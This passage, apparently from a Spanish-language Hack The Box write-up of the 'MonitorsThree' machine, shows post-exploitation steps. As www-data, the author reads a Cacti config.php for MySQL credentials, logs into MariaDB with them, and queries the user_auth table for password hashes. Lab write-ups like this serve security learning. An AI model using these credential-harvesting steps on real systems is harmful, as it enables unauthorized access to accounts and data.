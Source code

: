 Encontré credenciales adicionales para el servicio MySQL en el archivo `/html/cacti/include/config.php`.

```terminal
www-data@monitorsthree:~/html/cacti/include$ cat config.php
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree4_3.png)

Utilizando las nuevas credenciales, accedo a la base de datos Cacti. Dentro encuentro una tabla de usuarios con hashes de contraseñas.

```terminal
www-data@monitorsthree:/$ mysql -u cactiuser -p -h 127.0.0.1 -P 3306
Enter password: cactiuser

MariaDB [(none)]> USE cacti;

MariaDB [(cacti)]> select * from user_auth;
```
